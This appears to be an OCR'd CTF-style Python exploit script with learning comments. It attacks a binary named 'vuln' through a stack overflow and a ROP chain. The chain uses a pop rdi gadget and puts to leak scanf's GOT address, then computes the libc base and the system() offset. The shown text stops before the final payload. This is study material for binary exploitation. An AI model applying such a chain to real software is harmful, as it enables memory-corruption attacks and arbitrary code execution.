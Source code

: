 ```python
# where do we jumpt to since we cant execute it off the stack
# way to print out the address

"""
Plan to leak an address:
- use puts
- supply arguments to puts
- we will use ROP to do this:
	but will need the x64 calling conventions
- that means the register 'rdi' is the first argument
	we want to find a ropgadget that modifies (like a mov or pop) the rdi 
"""

pop_rdi = 0x400913 # 0x0000000000400913 : pop rdi ; ret (`ROPgadget --bin vuln`)
scanf_at_got = 0x601038 # DAT_00601038, address of .got.plt section of the scanf function in ghidra
puts_at_plt = 0x400540 # 00400540, address of .plt section of the puts function in ghidra
back_to_main = 0x400771 # 00400771, addres of main in ghidra

payload = [
	junk, # junk to overflow
	# call puts to leak the true scanf address
	p64(pop_rdi), # packs the integers into bytes (returns a 64-bit little-endian byte string representation as a hexadecimal-encoded string)
	p64(scanf_at_got), # address we want to leak
	p64(puts_at_plt), # callpoint
	p64(back_to_main) # jump back to main, so that it won't crash after we leak the address
]

payload = b''.join(payload) # mix all those variables in the payload list and transforms everything in bytes
p.sendline(payload) # send payload

# to get the leaked address
p.recvline()
p.recvline()

# unpack it and save the leak address, strip the \n, and adjusts the string padded with 8 bytes 
# and suffix it with null bytes and turn it into hexadecimal
leak = u64(p.recvline().strip().ljust(8, b"\x00")) 

log.info(f"{hex(leak)=}") # get the leaked address

"""
Plan to calculate the offset (getting the difference between the leaked address and the system address)
between scanf (function we leaked) and system (function we want to call )

`readelf -s ./libc.so.6 | grep scanf (print the address of scanf)`
2062: 000000000007b0b0   197 FUNC    GLOBAL DEFAULT   13 scanf@@GLIBC_2.2.5
"""
scanf_offset = 0x7b0b0

# Now we take our leaked address and subtract 0x7b0b0, and then we find the actual loaded address of libc
base_address_of_libc = leak - scanf_offset

"""
calcule the address of function system

`readelf -s //libc.so.6 | grep system`
1403: 000000000004f4e0    45 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.2.5
"""
system_offset = 0x4f4e0
```